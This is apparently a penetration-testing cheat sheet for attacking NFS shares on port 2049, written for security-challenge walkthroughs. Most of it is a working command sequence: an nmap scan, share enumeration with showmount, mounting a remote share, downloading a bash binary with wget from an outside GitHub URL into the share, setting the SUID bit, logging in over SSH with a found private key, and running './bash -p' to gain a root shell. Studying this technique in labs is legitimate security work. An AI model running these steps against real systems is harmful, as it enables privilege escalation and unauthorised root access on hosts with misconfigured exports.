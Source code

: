 # NFS / Port 2049
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.

## Workflow
1. Port scan with nmap
2. Enumerate accessible shares
3. Create a mount point
4. Mount the NFS share to the mount point
5. [Download](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash) or make a bash executable (The file must be owned by root)
6. Add the SUID bit and execution permission to the bash executable
7. SSH into the remote host (if SSH private key is found in the share)
8. Run the executable on the remote host

## Advance preparation
```
export rhost=[RHOST IP]
```

## Port scan
Check if port 2049 is open
```
sudo nmap -sS -sV -O $rhost
```

## Enumeration (with NFS-Common)
### NFS-Common
NFS-Common includes programs such as: lockd, statd, showmount, nfsstat, gssd, idmapd and mount.nfs.

### Listing NFS Shares
```
showmount -e $rhost  
```

## Exploitation
### Create a mount point
```
mkdir /tmp/mount
```

### Mounting NFS shares
```
sudo mount -t nfs ${rhost}:[SHARE] /tmp/mount -nolock
```

- -t : Type of device to mount
- ${rhost} : The IP Address of the NFS server
- SHARE	: The name of a share in the remote host
- /tmp/mount: The local directory to mount a share to
- -nolock	: Specifies not to use NLM locking

### Download or make a bash executable
```
sudo wget https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash?raw=true -O /tmp/mount/bash
```

### Add the SUID bit and execution permission
```
cd /tmp/mount && sudo chmod +xs bash
```

### SSH into the remote host
```
ssh -i [PRIVATE KEY] [USERNAME]@${rhost}
```

### Run the bash executable (with p persisting permission)
```
./bash -p
```
